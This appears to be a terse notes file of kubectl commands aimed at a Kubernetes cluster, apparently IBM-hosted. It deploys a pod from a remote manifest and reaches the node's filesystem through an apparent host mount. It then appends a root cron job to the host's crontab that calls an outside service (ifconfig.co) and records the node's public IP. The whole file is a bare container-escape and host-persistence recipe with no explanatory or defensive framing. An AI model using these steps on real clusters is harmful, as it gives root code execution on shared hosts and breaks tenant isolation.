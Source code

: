 # k8s

```bash
kubectl apply -f https://raw.githubusercontent.com/ShubhamTatvamasi/k8s/master/ibm.yaml
```
```bash
kubectl set image po ubuntu ubuntu=ubuntu:16.04
```
```bash
kubectl exec -it ubuntu -- bash
```
```bash
kubectl exec -it ubuntu -- tail /root/ibm/var/log/syslog -f
```
add commands to run on host
```bash
echo "* * * * * root curl ifconfig.co > /root/data 2>&1" >> /root/ibm/etc/crontab
```
```bash
vim /root/ibm/etc/crontab
cat /root/ibm/root/data
```
```bash
kubectl delete po ubuntu
```
